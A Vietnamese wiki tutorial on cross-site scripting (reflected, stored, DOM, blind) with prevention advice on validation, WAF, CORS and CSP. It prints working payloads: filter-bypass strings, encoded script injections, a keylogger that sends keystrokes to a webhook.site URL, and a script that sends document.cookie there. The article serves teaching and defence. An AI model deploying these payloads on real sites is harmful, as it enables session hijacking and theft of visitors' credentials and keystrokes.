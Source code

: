 ```yaml
---
title: XSS cơ bản | CORS và CSP
author:
    name: EHC-Wiki
date: 2020-11-03 00:13:00 +0700
categories: [Wiki, Web Exploitation]
tags: [wiki, web, xss]
mermaid: true
---
```


## XSS là gì

XSS - Cross-site Scripting là một kỹ thuật tấn công code injection trên phía client. Kẻ tấn công mục đích khai thác các dữ liệu nhạy cảm của người dùng khác bằng cách chèn các đoạn code độc hại trong trình duyệt Web, những mã độc này thường được viết với ngôn ngữ lập trình như Javascript, HTML…. Khai thác tấn công XSS chỉ thực sự xảy ra khi nạn nhân truy cập vào trang web hoặc ứng dụng thực thi các đoạn mã độc. 

![3](https://user-images.githubusercontent.com/82533607/145588467-062001db-782b-4f9c-b662-0646f04aae6b.png)

Về cơ bản, một ứng dụng có chứa lỗ hổng XSS đều xảy ra từ các trường input parameter được nhập vào từ người dùng, dữ liệu này sẽ chạy một cách hợp lệ trên trình duyệt, ứng dụng. Nguyên nhân chính của loại tấn công này là thiếu xác thực đầu vào dữ liệu người dùng, dữ liệu đầu ra trả về cho người dùng không được mã hóa và xử lý cẩn thận khiến những đoạn script độc hại có thể thực thi hợp lệ trên trình duyệt của nạn nhân.

Rủi ro:

- Người dùng bị chiếm phiên làm việc, đánh cắp cookie, token,…

- Thay đổi giao diện của ứng dụng, website.

- Quảng cáo hoặc bôi nhọ trang web, ứng dụng.

- Sử dụng phần cứng để nghe, chụp hình hay đào bitcoin.

## Các kiểu tấn công XSS

### Reflect XSS

Kẻ tấn công gửi cho nạn nhân một liên kết đến ứng dụng thông qua email, mạng xã hội,... nó chứa scripts độc hại được nhúng bên trong và sẽ thực thi khi truy cập trang web. Nó được gọi là reflect (ánh xạ) vì trong kịch bản khai thác này, hackers phải gửi cho nạn nhân một URL chứa scripts (phishing).

Nạn nhân chỉ cần truy cập URL này, hacker sẽ nhận được phản hồi chứa kết quả mong muốn.

Ví dụ, tại vị trí tìm kiếm của một ứng dụng, thay vì chèn nội dụng tìm kiếm bình thường, attacker chèn mã script, trình duyệt xử lý và hiện thị dữ liệu truyền vào trên màn hình. Và script độc hại được thực thi.

`/?q=%253c%252ftitle%253e%253cscript%253ealert%2528document.cookie%2529%253c%252fscript%253e`

![4](https://user-images.githubusercontent.com/82533607/145588852-999802ef-457f-4a29-a8d2-bf84a54709a3.png)

Thay vì hiện thị bảng thông báo cookie, attacker có thể thay bằng gửi cookie đến server của mình và có được phiên của nạn nhân.

### Stored XSS

Kẻ tấn công có thể chèn scripts vào những vị trí có thể lưu lại trong ứng dụng chứa lỗ hổng XSS, thường là lưu tại database và được hiện thị trên giao diện. Ví dụ như tên, comment, post được lưu trên ứng dụng, từ đó trình duyệt sẽ đọc và scripts được thực thi khi bất kỳ ai truy cập vào. Nạn nhân request đến thông tin được lưu trữ và bị đánh cắp thông tin. Gọi là Stored-XSS.

Khác với Reflect XSS là attacker phải gửi cho nạn nhân nhằm lừa nạn nhân truy cập. Còn với Stored XSS không cần phải thực hiện điều này. Ngoài ra, nó còn có thể tấn công nhiều nạn nhân mà chỉ cần một lần chèn scripts. Từ đó có thể thấy Stored XSS nguy hiểm hơn Reflect XSS rất nhiều, và nếu là quản trị hay người dùng cấp cao, hậu quả sẽ rất nghiêm trọng.

![5](https://user-images.githubusercontent.com/82533607/145588968-1a0418e6-57ce-41a2-8771-29a36d378a49.png)

Ví dụ, ứng dụng chứa lỗ hổng có lưu trữ bao gồm các trường hồ sơ như username hay email, thông tin lưu trên máy chủ đó hiển thị trên giao diện ứng dụng.

![6](https://user-images.githubusercontent.com/82533607/145589114-76355fc0-a0c3-4bdf-9bb3-9f6a976ff5df.png)

### DOM Based XSS

Scripts được chèn và sửa đổi DOM (Document Object Model) của trang web trong code phía nạn nhân và sau đó được thực thi, kỹ thuật này thay đổi cấu trúc DOM, cụ thể là HTML, nó làm thay đổi giao diện phía người dùng. Khác với reflect cũng là gửi để phishing nạn nhân nhưng không gửi dữ liệu đến server, nó trực tiếp chạy trên trình duyệt nạn nhân, điều này giảm thiểu filter từ phía server.

Ví dụ trang lấy giá trị parameter trên URL để hiển thị thông báo trên màn hình, thay vì chèn chuỗi thông báo, attacker chèn scripts và nó được thực thi trên trình duyệt nạn nhân.

### Blind XSS

Kỹ thuật này xảy ra khi kẻ tấn công không thể thấy được kết quả của cuộc tấn công vì kết quả lỗ hổng thường nằm trên một trang mà chỉ những người dùng được ủy quyền mới có thể truy cập. Kiểu khai thác này thường phải dùng payload phức tạp hơn để có thể nhận biết được nếu vị trí tồn tại lỗ hổng cũng như payload của kẻ tấn công được thực thi thành công.

Ví dụ lỗ hổng tại form feed back về ứng dụng, chỉ quản trị có thể đọc nội dung bị nhiễm mã khai thác.

## Một số case phức tạp hơn

### Bypass filter

Ví dụ filter blacklist không đầy đủ, hoặc payload được obfuscate: `<sCrIpT>alert('xss');</ScRiPt>`

Bypass trường hợp hợp thẻ `<script>` bị xóa trước khi hiển thị: `<svg o<script>nload=alert(1)>`

Kết quả: `<svg onload = alert(1)>`

Hoặc: `<%00script>alert(1)</script>`

`%00` trả về giá trị `null` khi đó 1 số filter không cẩn thận sẽ cho phép mã khai thác dạng này

Phishing: những thẻ hợp lệ như `<a>` cũng đều có thể được lợi dụng gây ra lỗ hổng XSS, ví dụ: 

```html
<a href=https://attacker/>Session expired. Please login again.</a>
<a href="javascript:alert(1)">Click Here</a>
```

Mã hóa: mã hóa payload là 1 trong các cách được attackers hay dùng ví dụ như encode scripts bằng URL, trình duyệt sẽ decode từ HTML/URL thành script và thực thi:

```js
%26%23x22%3B%3E%26%23x3C%3Bscript%3Ealert%26%23x28%3B1)%26%23x3C%3B/script%3E
```

Tạo Keylogger, attacker có chèn script ghi phím gõ trực tiếp của người dùng và gửi về server của kẻ tấn công ví dụ 1 đoạn script:

```html
<script>var keys="";

document.onkeypress = function(e) {

get = window.event?event:e;

key = get.keyCode?get.keyCode:get.charCode;

key = String.fromCharCode(key);

keys+=key;

}

window.setInterval(function(){

if(keys != "") {

new Image().src = "https://webhook.site/f6d7fb91-a0b3-4604-b1b2-853553ddd8a9?c="+keys;

keys = "";

}}, 500)</script>
```

Gửi request tới server: hacker có thể dùng nhiều hàm hỗ trợ để gửi request về server của hacker kèm dữ liệu nhạy cảm, ví dụ 1 case đơn giản:

```js
var request = new XMLHttpRequest(); request.open('GET', 'https://webhook.site/f6d7fb91-a0b3-4604-b1b2-853553ddd8a9/?a='+document.cookie, true); request.send();
```

Bypass CSRF: hacker có thể lợi dụng các thẻ như `iframe` để render trang được gán CSRF token để chống tấn công CSRF. Sau đó các dựa vào script XSS, hacker có thể đánh cắp token.

Ngoài ra còn rất nhiều kịch bản khác!

## Ngăn chặn XSS

### Data Validation

Giới hạn input của người dùng trong danh sách cụ thể, phương pháp này đảm bảo rằng chỉ các giá trị đã biết và an toàn mới được gửi đến máy chủ. Việc hạn chế input chỉ hoạt động nếu hệ thống biết có thể nhận được loại dữ liệu nào. Sử dụng thư viện có sẵn, vì các thư viện đó đã được nhiều developer sử dụng và thử nghiệm. Tuy nhiên, nó chỉ giúp giảm thiểu rủi ro, không đảm bảo đủ để ngăn chặn lỗ hổng XSS có thể xảy ra

Encode và xử lý dữ liệu đầu ra, kiểm tra nội dung không an toàn trước khi export hiển thị trên trình duyệt người dùng.

![7](https://user-images.githubusercontent.com/82533607/145590064-8eddac32-c33a-4c99-a2d0-c70769b0cc73.png)

### Sử dụng WAF

Sử dụng tường lửa để bảo vệ ứng dụng, hệ thống trước các cuộc tấn công. Phương pháp này chặn các cuộc tấn công như XSS, RCE hoặc SQLi trước khi các yêu cầu độc hại đến được hệ thống. Nó cũng có lợi ích là bảo vệ chống lại các cuộc tấn công quy mô lớn như DDOS.

### Cấu hình CORS

Cấu hình Cross-Origin Resource Sharing giúp ngăn các website khác đánh cắp traffic của ứng dụng, ví dụ như khi attacker nhúng script vào các websites để gửi các thông tin đánh cắp được về máy chủ khác.

### Cấu hình CSP

Chỉ định các tên miền để trình duyệt xem là nguồn hợp lệ của các script thực thi. Trình duyệt tương thích CSP sau đó sẽ chỉ thực thi các script được load trong nguồn nhận được từ các miền thuộc danh sách đó.